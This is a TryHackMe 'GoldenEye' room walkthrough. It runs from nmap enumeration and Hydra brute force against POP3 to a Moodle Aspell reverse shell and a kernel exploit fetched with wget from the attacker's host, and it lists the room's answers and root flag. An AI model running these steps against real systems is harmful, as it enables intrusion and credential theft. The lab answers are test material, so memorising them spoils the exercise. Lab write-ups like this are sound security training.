

# TryHackMe Walkthrough

## Room: GoldenEye

## Difficulty Level: Medium

I really like this room because I am a fan of Bond movie. I grew up with it so imagine my thrilled to work on this room.
Personal reasons aside, I think this room is very realistic on the easy side of the hacking. It followed the hacking steps from enumeration to privilege escalation. It gives the beginner hacker like myself the overview of what to expect.
It has leaked credentials so we learned how easy it is to compromise a machine if we can find leaked credential and weak passwords.
Then, I got a taste of using an exploit to exploit the system. It was not just download an exploit and be able to use it right away. I had to do something more to make the exploit usable for my case. Then, I got a taste of escalating my privilege to root.
Another thing that I like about this room is the fact that it keeps decoding to the moderate and acceptable level. While it contained some decoding tasks, they were not excessive to the point of shifting the focus of the room into decoding rather than hacking. While I accept that decoding is a useful skill, it felt too much of a CTF and less of a realistic scenario for an aspiring ethical hacker to train. I personally do not believe that real companies or real users use that many encoding in their system.

Without further ado, let me explain what I have done in details below.

## **Task 1: Intro & Enumeration"**

After I started my target machine and connect my Kali to the VPN, I scanned the target machine using `nmap`. I also navigated to the target machine's website.

Here is the nmap command I used.

```sudo nmap -sS -sV -Pn -p- <target_IP> -oA goldenEyeNmapResult -T4```


***Q1: Use nmap to scan the network for all ports. How many ports are open?***
***A1: 4***

As you can see from the screenshot above, the website told me to navigate to `<target_IP>/sev-home/` to access the login page. Having this information, my mind instantly thinking of credential leaks, login credential brute force, and weak passwords.

Before I headed to the login site, it was a good idea to check the source code of the page in case I get something useful and I did.

Here is the screenshot of the source code. As you can see that the `terminal.js` is an interesting file worth checking so I checked.


I navigated to `terminal.js` and found that someone's name `Boris` need to update his password.


Boris's password was easily cracked using Burp Suite's smart decoder.


***Q2: Who needs to make sure they update their default password?***
***A2: boris***

In the screenshot above, there was Boris's encoded password. All I needed to do was to crack it and I did.

***Q3: Whats their password?***
***A3: InvincibleHack3r***

Now that I have the credential, it's time for me to login into the website using the username and password I got.

The username was `boris`. I tried with the capital letter `B` and it did not work. The correct username spelled with `b`.

The password was the one I decoded from the source code.


## **Task 2: Its mail time...**

After logining in, I found this. It told us about POP3 service running in the non-default port.


Re-call back to the `nmap` result, port `55006` and `55007` run POP3 service.

I used `netcat` to check and grab the banner of the POP3 service. The command I use was `nc <target_IP> <non_default_port>`


This successful connection told me that I can connect to their POP3 service. I tried testing their commands, but all I got were `user` and `pass`. I tried to user the `user` command to verify users there but it seems to give out `+OK` to everything I typed in after the `user` command. I even tried typing a made-up name or inappropriate word just to trigger `-ERR` flag but it still returned `+OK`. This concluded that I couldn't verify users with the `user` command.

I tried to log into Boris's account using the same username and password, but it was not successful. This means I have to find another way in.

The hint told me to use `Hydra` to brute force the login password so I did.

The thing I noticed here was that when facing a situation like this, brute forcing the login password can be a smart step to give it a try.

Here is what I did using `Hydra`. It took a while before I got the command right and I got the result.

The command was `hydra -l <username> -P <wordlist-text-file> <target_IP> -s <port> <service>`

`hydra l boris -P /usr/share/wordlists/fasttrack.txt <target_IP> -s 55007 pop3`


***Q4: If those creds don't seem to work, can you use another program to find other users and passwords? Maybe Hydra?Whats their new password?***
***Hint: POP3***
***A4: secret1!***

Tackling the next question, it asked what service was using the port 55007. It was POP3.

***Q5: Inspect port 55007, what service is configured to use this port?***
***A5: pop3***

POP3 is an email service.

***Q6: What can you find on this service?***
***A6: emails***

Using the password obtaining from using `hydra` to brute force, I was able to login as shown in the screenshot below.


Since I was not familiar with POP3 commands, I googled POP3 commands and found `retr <number_of_the_email>` and `list` to be useful commands.

`list` command is used to list all emails in the inbox.

`retr` command is used to retrieve a specific email.

Went back to take a look at the `target.js` source code, it said `Natalya` could break `Boris` code. In one of the emails, this was re-stated again.


***Q7: What user can break Boris' codes?***
***A7: Natalya***

I also got other usernames.

***Keep enumerating users using this service and keep attempting to obtain their passwords via dictionary attacks.***
***Hint: You will eventually get a xenia's password in plaintext.***

Repeated the same password brute force method using `hydra` with the new user that I found, `Natalya`.


Login using `natalya` and read her emails.


I read her email 2 and got `Xenia`'s password in clear text.


I also got an internal domain information from this email to work on next.

## **Task 3: GoldenEye Operators Training**

The instruction from the previous image said told me to modify the DNS record. For Linux, go to `/etc/hosts` and add the `<target_IP>` as `<the_server_name>` in the instruction from that image.

To do that, just type `cat /etc/hosts` to see the current DNS record in terminal.
Then, `sudo nano /etc/hosts`. To modify this file, a root permission is needed. If you aren't sure, try it without `sudo` and if it fail, then retry it with `sudo`. Of course, you can use any editor you like. I prefer `nano` because of its simplicity.


Once I have modified the DNS record on `/etc/hosts`, I can navigate to the internal url mentioned earlier. As you can see, GoldenEye Operators Training was a Moodle service.


Now I use Xenia's credential to log into the Moodle GoldenEye Operator Training.


Now you can see Xenia's public profile and her email. If I wanted to try to compromise her, I have her email so I can try to brute force the login password or send a phishing email or even a spearfishing email to her. I need only 1 click from her to compromise her machine after all.


***Q8: Try using the credentials you found earlier. Which user can you login as?***
***A8: xenia***

Poking around further, I found a user called Dr Doak.


I found another user, Dr Doak.

Upon digging further, I found messages between Dr Doak and Xenia.

Taking a look at the 2 screenshots below. There was a message between Xenia and Dr. Doak in which Dr Doak's told Xenia his username.

His username is `doak`. I forgot to highlight that part.

Also, there is a Doctor Who easter egg here as well.


***Q9: Have a poke around the site. What other user can you find?***
***A9: doak***

Now that I got `doak` as a user, I brute force its password with `hydra` to try to gain his POP3 password.


***Q10: What was this users password?***
***Hint: pop3 + hydra***
***A10: goat***

Here is the screenshot of a successful POP3 username and password login from the user `doak`. I also see one message here so I read it.


From the screenshot above which is still the POP3 service, I found that user `doak` has been feeding the information to James.

In `doak`'s user from POP3, I found that `doak` was James's inside man.

To help James's further, `doak` from POP3 gave James his username and password in clear text.

***Q11: What is the next user you can find from doak?***
***Hint: Emails, emails, emails..***
***A11: dr_doak***

***Q12: What is this users password?***
***A12: 4England!***

Now I can step away from POP3 to Moodle. Pretending to be James, I log into `doak`'s Moodle account `dr_doak` and using his password. Once I have successfully logging in, I am greeted with `Dr Doak` profile.


Diging further, I found a secret file so I downloaded it to my machine to examine further.


Keep digging, I found `Admin User`.


To read the secret file, `cat <filename>`. It told me to navigate to a specific location to get a specific file called `for-007.jpg` so I did.


This is the screenshot of the `for-007.jpg`.


***Download the attachments and see if there are any hidden messages inside them?***
***Hint: Use exiftool***

I downloaded the file `for-007.jpg` and use `exiftool` to examine it as TryHackMe's hint told me. I found an encoded information.


I used `burp suite`'s decoder to decode the encoded message from the image file and got the `Admin User`'s password.


Now I can login to Moodle as user `admin` with the password I got from decoding the encoded message using `burp suite`.


***As this user has more site privileges, you are able to edit the moodles settings. From here get a reverse shell using python and netcat.***

***Take a look into Aspell, the spell checker plugin.***
***Hint: Settings->Aspell->Path to aspell field, add your code to be executed. Then create a new page and "spell check it".***

I added the reverse shell code in Aspell here according to the screenshot below. If you don't know how to find `Aspell` plug-in, use the search bar. I highlight it because I couldn't find the search bar and I couldn't find `Aspell` in the plug-in area for a while. Using the search bar is easier.

I tried to use the code from Pentest Monkey, but it didn't work even though it was popular and reliable some times ago when I had just learned to hack. It said it was tested with Python 2 on its website. Now that Python 2 is deprecated, I suspect that this was why it no longer work.

I tried several ways to get the shell including making changes to the spell engine, but it did not work. One of the changed crashed the target or my kali so I avoided it.

This python reverse shell code from [here](https://gist.github.com/lucasgates/0c6330c582d0ccf52fad129d5e7e9de7) got me the reverse shell.


After adding the reverse shell code to Aspell, navigate to `profile -> blogs -> add a new entry`. Type something and click `spellCheck`.


If I have done it correctly, I can get a shell in my `netcat` listener on my kali machine.

## **Task 4: Privilege Escalation**

I got the shell by setup `netcat` listening port. The command was `nc -lvnp <port>`. Once I got the shell, I checked which user I got the shell as. If I got root user, that would be awesome, but in this case I only got `www-data` as the user.

I also check where I am in directories structure using `pwd`.


The instruction suggested us to use [linuxprivchecker.py](https://gist.github.com/sh1n0b1/e2e1a5f63fbec3706123) to check privilege escalation vectors. You can also maually check all of them.

From this point we will use this shell to receive the `linuxprivchecker.py` file so do not close this shell or this tab on terminal on our kali machine.

In order to send a file to the target machine, we start off by setting up a python server to deliver the file. The command from the instruction was a little too outdated.
The command below is the most current one at the moment of writing this walkthrough.

On another tab on terminal of our kali machine, type this command on terminal `python3 -m http.server <port>` to setup a python server to deliver a file. Note that this command use Python3 while the command on TryHackMe based on Python2 which was deprecated. We can choose any port we want as long as that port isn't currently occupied on our kali machine. I chose port `8080`.

Open the web browser and navigate to `http://<kali_IP>:<kali_python_server_port>/<malicious_file>` to download the file or files. Alternatively, you can use `curl`or `wget` to download those files one at a time via commandline.

As you can see from the screnshot below, `<target_IP> --[date_time] "GET /<filename> HTTP/1.1" 200 -`, `200` indicated a successful download using `GET` method of `HTTP`.


The instruction told me to check the kernel version. To do that, use the command `uname -a`.



***Q13: Whats the kernel version?***
***Hint: `uname -a`***
***A13: 3.13.0-32-generic***

In addition to the `linuxprivchecker.py` file, the instruction suggested to use this specific exploit in which this kernel version is vulnerable to. [This Exploit](https://www.exploit-db.com/exploits/37292)

Switch tab to our target shell from earlier that I told you not to close it and check if the target machine has receieved the files or not using `ls` command.

As you can see below in the screenshot, I have successfully delivered the `linuxprivchecker.py` which is useful to check linux privilege escalation vectors and `<number.c>` file which is the exploit file written in C language.


***Fix the exploit to work with the system you're trying to exploit. Remember, enumeration is your key!***
***What development tools are installed on the machine?***

According to this hint from TryHackMe, I typed `which gcc` and found nothing so I typed `which cc` and got the result. This means the target machine has `cc` compiler instead of `gcc`. This is the enumeration part that the instruction told me.

The instruction said I need to alter only one character to make it usable. I struggled several times. I thought I needed to use `gcc` to compile the exploit file, but the target machine only have `cc` complier. The original exploit file was written to use `gcc`.

I have to fine the line that wrote `gcc` and change it to `cc`. I made the change using `nano` as shown in the belowed screenshot. This screenshot is the original exploit.

I tried to send the exploit to the target machine and tried to alter it there, but the `www-data` user did not have accessed to `nano` so I had to make the change on my kali machine and deliver it to the target machine to complie and use there.

This is the original exploit code.


This is after the 1 character altered.


After altering the code with only 1 character as instructed, I delivered it to the target machine using the same method, the python HTTP server.

As you can see, the file was downloaded using `wget http://<kali_IP>:<kali_python_server_port>/<exploit_file>`.


Use `cc` to compile the exploit file with this command `cc <exploit.c> -o <exploit_name>`.

Then, `./exploit` to run the exploit. Note that `./<filename>` is a way to run a file on a linux machine from commandline. Wait to receieve the shell as `root`.

As you can see, the shell started with `#` indicated that right now I have successfully gain `root` access.


To verify that I am actually `root`, I can use `whoami` or `id` to verify that I am `root`.

Before moving on, it is a good practice to remove my trace so I cleanned up after myself by deleting the 2 files that I sent to the target machine and file I compiled from the exploit.

Doing so is a good practice in term of staying hidden to simulate that a real world attacker is likely going to erase their trace that they have compromised the target machine. Even if the penetration tester does not need to conseal their present, it is still a good practice to clean up for the blue team of the company as well as not leave any usable code for the real attacker if they can compromise the machine so they can further compromise it easier.

This screenshot showed that I removed the files I delivered and created before heading to get root flag in the `/root` directory.


Getting the root flag. As you can see here, everything inside `/root` directory was hidden. In oder to see them on screen, use `ls -la`.

Now you can see `.flag.txt` file. All you need to do was using `cat` command to see the flag.

The command was `cat <file>`.


***Q14: What is the root flag?***
***Hint: This is located in the root user folder.***
***A14: 568628e0d993b1973adc718237da6e93***

***Bonus Scene: Let's the fangirl in me shine!***


Thank you so much for reading this till the end.

---

**Author & Publisher:** Sangsongthong Chantaranothai

**Date Published:** March 15, 2025
*(Based on the commit where the full walkthrough was completed. Later commits are minor edits or additions.)*

**Purpose:** Created as part of ongoing professional development to earn CEU/CPE credits for CompTIA and ISC2 certifications. Also intended to showcase cybersecurity skills, support Hexterika Cyberlab's portfolio, and demonstrate project quality to future clients and employers.

***Published as part of Hexterika Cyberlab, the cybersecurity division of Hexterika Breaks Free.***

🔐 Part of the **Hexterika Cyberlab** project series  
📎 Website coming soon at **Hexterika Breaks Free**

<!--The image path shouldn't have / in front of Screenshots. I made a mistake by typing /Screenshots instead of Screenshots making the images not display properly on GitHub even though I can see them on the preview on my local machine. This comment is invisible, by the way.-->
